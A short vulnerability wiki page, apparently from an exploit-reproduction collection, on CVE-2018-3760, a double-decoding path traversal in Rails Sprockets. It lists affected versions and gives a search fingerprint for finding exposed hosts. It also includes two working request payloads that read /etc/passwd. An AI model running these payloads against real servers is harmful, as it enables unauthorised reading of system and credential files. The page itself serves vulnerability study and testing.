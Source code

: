 # Rails sprockets Arbitrary file reading vulnerability CVE-2018-3760

## Vulnerability Description

Ruby On Rails uses Sprockets as a static file server in the development environment. Ruby On Rails is a famous Ruby Web development framework. Sprockets is a Ruby library for compiling and distributing static resource files.

In Sprockets 3.7.1 and previous versions, there was a path-travel vulnerability caused by secondary decoding. Attackers can use %252e%252e/ to span to the root directory, read or execute any file on the target server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Sprockets < 3.7.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Ruby On Rails"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656041292346-1069b91e-aa5e-4d53-821a-9150720e9b5e.png)

Get the absolute path first

```php
/assets/file:%2f%2f/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656041358544-854ca040-261f-474f-86fc-61a8558e4238.png)

Use POC to read files

```php
/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656041483857-17cdbe06-5526-4b80-9189-b4ec9ea0b834.png)